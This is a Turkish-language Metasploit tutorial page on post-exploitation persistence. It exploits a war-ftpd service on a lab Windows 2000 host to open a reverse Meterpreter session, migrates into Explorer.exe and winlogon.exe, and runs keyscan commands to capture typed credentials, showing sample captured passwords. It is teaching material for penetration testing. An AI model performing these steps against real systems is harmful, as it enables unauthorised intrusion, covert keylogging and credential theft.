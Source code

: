 ```yaml
---
draft: false
title: MSF Meterpreter Kalıcılık Sağlama
linkTitle: MSF Meterpreter Kalıcılık Sağlama
translationKey: msf-meterpreter-persistence
date: 2017-06-15T13:54:00+03:00
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
description: Bir hedef bilgisayara başarılı bir oturum açtığınızda, mevcut yetkiler izin veriyorsa ilk düşünülmesi gereken kalıcılık sağlamaktır.
url: /tr/msf-meterpreter-kalicilik-saglama/
featured_image: /images/metasploit.jpg
categories:
    - Metasploit Framework
tags:
    - cybersecurity
    - metasploit framework
weight: 410
---
```

## Kalıcılık Sağlama

Bir hedef bilgisayara başarılı bir oturum açtığınızda, mevcut yetkiler izin veriyorsa ilk düşünülmesi gereken kalıcılık sağlamaktır. Kalıcılık, hedef sisteme daha sonradan giriş için açık kapılar oluşturulması veya daha kolay giriş yöntemleri bulunmasını kapsar.

Bazı durumlarda, hedef üzerinde yaptığınız çalışmalar sistemi kararsız hale getirebilir. Sistemin tekrar başlatılması gerektiğinde bağlantınız da kopacaktır. Bu gibi durumlar için, hedef sisteme tekrar bağlanmanın kolay bir yolunu oluşturmak faydalı olacaktır.

Kalıcılık sağlamak için sistem hakkında kullanıcı bilgileri, token bilgileri, hash bilgileri ve bağlı olduğu diğer alt ağların keşfi ileride kullanım için oldukça fayda sağlamaktadır.

Bilgi toplamanın bir yöntemi de keylogger olarak ifade edilen yöntemdir.

## Metasploit içinde Keylogger Kullanımı

Bir sisteme giriş sağlandığında iki yaklaşım sergileyebilirsiniz. Çok hızlı olmak veya çok yavaş olmak. Keylogger, yani kullanıcının tuşlarını ve yazdıklarını kaydetmek, yavaş yaklaşıma bir örnektir. Bu yaklaşımda, gerçekleştirmek istediğiniz işlemleri çok hızlı yapamazsınız ancak uzun vadede çok kullanışlı bilgiler elde edebilirsiniz.

Öncelikle, bir exploit modülü kullanarak hedef sistemde oturum çalım.

```bash
msf exploit(warftpd_165_user) > exploit

> Handler binding to LHOST 0.0.0.0
> Started reverse handler
> Connecting to FTP server 172.16.104.145:21...
> Connected to target FTP server.
> Trying target Windows 2000 SP0-SP4 English...
> Transmitting intermediate stager for over-sized stage...(191 bytes)
> Sending stage (2650 bytes)
> Sleeping before handling stage...
> Uploading DLL (75787 bytes)...
> Upload completed.
> Meterpreter session 4 opened (172.16.104.130:4444 -> 172.16.104.145:1246)

meterpreter >
```

Oturum açıldıktan sonra, tuşları kayıt etmek için `Explorer.exe` prosesine geçmek başarı için daha garanti bir yoldur. Hedef sistemde `Explorer.exe` uygulaması, hangi PID numarasıyla çalışıyor öğreniyoruz ve `migrate` komutuyla geçiş yapıyoruz.

```bash
meterpreter > ps

Process list
**============**

    PID   Name               Path                                                   
    ---   ----               ----                                                   
    140   smss.exe           \SystemRoot\System32\smss.exe                          
    188   winlogon.exe       ??\C:\WINNT\system32\winlogon.exe                     
    216   services.exe       C:\WINNT\system32\services.exe                         
    228   lsass.exe          C:\WINNT\system32\lsass.exe                            
    380   svchost.exe        C:\WINNT\system32\svchost.exe                          
    408   spoolsv.exe        C:\WINNT\system32\spoolsv.exe                          
    444   svchost.exe        C:\WINNT\System32\svchost.exe                          
    480   regsvc.exe         C:\WINNT\system32\regsvc.exe                           
    500   MSTask.exe         C:\WINNT\system32\MSTask.exe                           
    528   VMwareService.exe  C:\Program Files\VMwareVMware Tools\VMwareService.exe 
    588   WinMgmt.exe        C:\WINNT\System32\WBEMWinMgmt.exe                     
    664   notepad.exe        C:\WINNT\System32 otepad.exe                          
    724   cmd.exe            C:\WINNT\System32\cmd.exe                              
    768   Explorer.exe       C:\WINNT\Explorer.exe                                  
    800   war-ftpd.exe       C:\Program Files\War-ftpd\war-ftpd.exe                 
    888   VMwareTray.exe     C:\Program Files\VMware\VMware Tools\VMwareTray.exe    
    896   VMwareUser.exe     C:\Program Files\VMware\VMware Tools\VMwareUser.exe    
    940   firefox.exe        C:\Program Files\Mozilla Firefox\firefox.exe           
    972   TPAutoConnSvc.exe  C:\Program Files\VMware\VMware Tools\TPAutoConnSvc.exe 
    1088  TPAutoConnect.exe  C:\Program Files\VMware\VMware Tools\TPAutoConnect.exe 

meterpreter > migrate 768
> Migrating to 768...
> Migration completed successfully.
meterpreter > getpid
Current pid: 768
```

PID geçişini kontrol ettikten sonra keylogger işlemini başlatalım.

```bash
meterpreter > keyscan_start
Starting the keystroke sniffer...
meterpreter > keyscan_dump
Dumping captured keystrokes...
   tgoogle.cm my credit amex   myusernamthi     amexpasswordpassword
```

Bir miktar süre geçtikten sonra kayıt dosyasını görmek için `keyscan_dump` komutunu kullanabilirsiniz. Yakalanan tuş vuruşlarını incelediğinizde, CTRL veya ALT gibi tuşların log dosyasına nasıl kayıt edildiğini de öğrenebilirsiniz.

Ayrıca, oturum açma bilgilerini de yakalamak isterseniz, `Explorer.exe` yerine `migrate` komutuyla, `winlogon` prosesine geçebilirsiniz.

```bash
meterpreter > ps

Process list
**=================**

PID Name         Path
--- ----         ----
401 winlogon.exe C:\WINNT\system32\winlogon.exe

meterpreter > migrate 401

> Migrating to 401...
> Migration completed successfully.

meterpreter > keyscan_start
Starting the keystroke sniffer...
```

Kayıt esnasında bir Administrator kullanıcı oturumu açılmıştır. Sonucuna bakalım.

```bash
meterpreter > keyscan_dump
Dumping captured keystrokes...
Administrator ohnoes1vebeenh4x0red!
```

Görüldüğü gibi, oturum açan kullanıcı “Administrator” ve parolası “ohnoes1vebeenh4x0red!” olarak tespit edilmiştir.
